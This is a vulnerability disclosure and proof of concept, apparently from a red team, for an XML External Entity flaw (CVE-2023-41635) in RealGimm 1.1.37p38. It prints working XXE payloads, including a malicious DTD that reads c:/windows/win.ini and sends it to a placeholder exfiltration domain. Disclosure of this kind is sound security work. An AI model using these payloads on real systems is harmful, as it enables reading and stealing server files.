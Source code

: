 # CVE-2023-41635 | RealGimm by GruppoSCAI - XML External Entity Injection
An XML External Entity injection vunerability was found in RealGimm version 1.1.37p38. What follows is a description of the steps taken to perform the exploit.

## Proof of Concept
First of all, we access the function in which the vulnerability is present by clicking on *Gest. Tecnica -> Manutenzioni -> Scheda Visita/Manutenz.* and we click on the import icon:

![Import XML Functionality](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/d31fdfd0-63ef-4450-8d32-d90098de6232)

Below the file import window:

![File import window](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/9a29bcc2-934e-4b61-8ebb-edecca0e141a)


To demonstrate the presence of the vulnerability, we first create a file with the following content and import it using the functionality offered by the web application:

```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://[burp collaborator URL]"> %xxe; ]>
```
![File test.xml with payload](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/5d03b262-d80a-480c-88bb-7bbd1fe9234e)

![Import test.xml](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/72bf13ad-c62c-4435-a3c7-73152f753a5d)


Below the intercepted request and response:

![Request and response](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/29790c98-d650-4b4b-9d32-59af598df027)


As seen in the following image, the test.xml file containing the malicious payload is successfully parsed and a http request is issued to the burp collaborator domain:

![Request recevied in burp collaborator](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/513a3abc-574d-484b-ac4f-2487fb77be5e)


Using the vulnerability just described, it is also possible to read any file present on the file system where the xml parser is running. For this purpose, on our attacking machine, we define a malicious.dtd dtd file that allows exfiltrating the contents of file c:/windows/win.ini:

```
<!ENTITY % file SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://[exiltration domain]/?x=%file;'>">
%eval;
%exfiltrate;
```
![Malicious dtd file](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/7b78dcd3-cdba-4f94-b3dc-0160549fb14d)


We accordingly update the previously used test.xml file with the following content:
```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://[exfiltration domain]/malicious.dtd"> %xxe; ]>
```
So let's import the test.xml file as we did previously.
![malicious test.xml](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/ae8646bd-0365-40d3-a0c4-c2403b3d91a8)
![test.xml import](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/04d3efae-6090-489a-8e60-eaeabf90e465)


As can be seen from the following image, from the web server logs, we can successfully exfiltrate the contents of the win.ini file:
![win.ini exfiltrated](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/69cffda1-8b57-4b92-8cd0-297f4296b946)


Below is the decoded content of the exfiltrated file:
![win.ini decoded](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/b791a414-78ba-4507-a4e9-d1c129b92c52)


## Vulnerable version of RealGimm

As a result of our testing, version 1.1.37p38 is considered to be affected by this vulnerability. 

## Discovered by

Paolo Caminati

Claudio Rimensi

Francesco Mercatili

